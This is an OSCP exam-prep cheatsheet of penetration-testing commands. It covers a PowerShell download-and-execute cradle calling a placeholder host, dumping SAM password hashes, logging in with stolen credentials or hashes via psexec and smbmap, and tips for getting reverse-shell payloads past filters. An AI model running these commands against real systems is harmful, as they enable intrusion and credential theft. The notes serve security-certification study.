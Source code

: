 # oscp-cheatsheet

## Kali General

- Listen for pings to test if you remote command worked
  - tcpdump -i interface icmp
- Download all files from an ftp service
  - wget -m --no-passive ftp://anonymous:anonymous@ipaddress
- Useful tools
  - xclip

## Windows

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

- Privesc
  - Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
    - IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/script.ps1")
  - Run cmd as other user
    - $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred
  - Decrypy SAM password hashes
    - impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local
  - Determine admin accounts
    - DOS: net localgroup administrators
  - SAM and SYSTEM file location
    - Windows/System32/config
  - Log into remote windows host with stolen creds (SMB required)
    - psexec.py user@ip
  - Check panther directory, install logs get put in here and contain creds

- SMB
  - Connect with stolen hash
    - smbmap -u USER -p HASH -H hostnameIP

## Linux

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/)

## Troubleshooting

    - Did an RCE test work but your payload fail?
      - Try changing single quotes to double quotes or vice versa
      - Try escaping special characters
      - Try changing your outgoing port to a more commonly used one (80, 443, 21, 22, etc)
      - Try removing bad characters
        - ex: cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard
          - powsershell-enc base64scriptpaste
      - If you used msfvenom make sure your archicitecture is correct
      - If you used msfvenom make sure your payload size isn't too large
      - If you used msfvenom try pivoting options
  